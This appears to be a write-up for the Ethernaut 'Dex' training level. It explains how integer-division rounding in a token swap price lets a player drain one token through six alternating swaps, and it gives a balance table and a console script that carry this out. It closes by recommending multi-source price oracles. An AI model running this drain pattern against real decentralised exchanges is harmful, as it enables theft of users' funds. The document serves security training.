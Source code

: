 [Level 22. Dex](https://ethernaut.openzeppelin.com/level/22)

## In A Nutshell

> In Solidity, division rounds to the floor.

## Concept

1. There's no floating point in Solidity.
2. Division should be cautiously approached, as precision loss can result in serious consequences.

## Level Target

1. Drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

## Breakdown & Analysis

1. The formula in the function `getSwapPrice()` contains a flaw. The division will result in having more balance before each swap.
2. We can swap token 1 and token 2 alternately.

|              | DEX - Token1 | DEX - Token2 | Player - Token1 | Player - Token2 |
| ------------ |--------------|--------------|-----------------|-----------------|
| Before Swap  |      100     |      100     |        10       |        10       |
| After Swap 1 |      110     |      90      |        0        |        20       |
| After Swap 2 |      86      |      110     |        24       |        0        |
| After Swap 3 |      110     |      80      |        0        |        30       |
| After Swap 4 |      69      |      110     |        41       |        0        |
| After Swap 5 |      110     |      45      |        0        |        65       |
| After Swap 6 |      0       |      90      |       110       |        20       |

## Detailed Steps

```js
await contract.approve(contract.address, 300); // approve the contract to spend our token1 and token2.
token1 = await contract.token1(); // get token1's contract address
token2 = await contract.token2(); // get token2's contract address
await contract.swap(token1, token2, 10); // swap 1
await contract.swap(token2, token1, 20); // swap 2
await contract.swap(token1, token2, 24); // swap 3
await contract.swap(token2, token1, 30); // swap 4
await contract.swap(token1, token2, 41); // swap 5
await contract.swap(token2, token1, 45); // swap 6. Note that we can't swap with all our token2 balance since there are only 45 token2 in the pool at this time.
```

## Getting Price From A Single Source

It would be an attack vector if the contract retrieved data such as the price from a single source since hackers can manipulate that source and take advantage of it.

One way to mitigate this problem is using oracles such as Chainlink. It retrieves data from multiple sources and gathers them, then sends the result onto the chain.
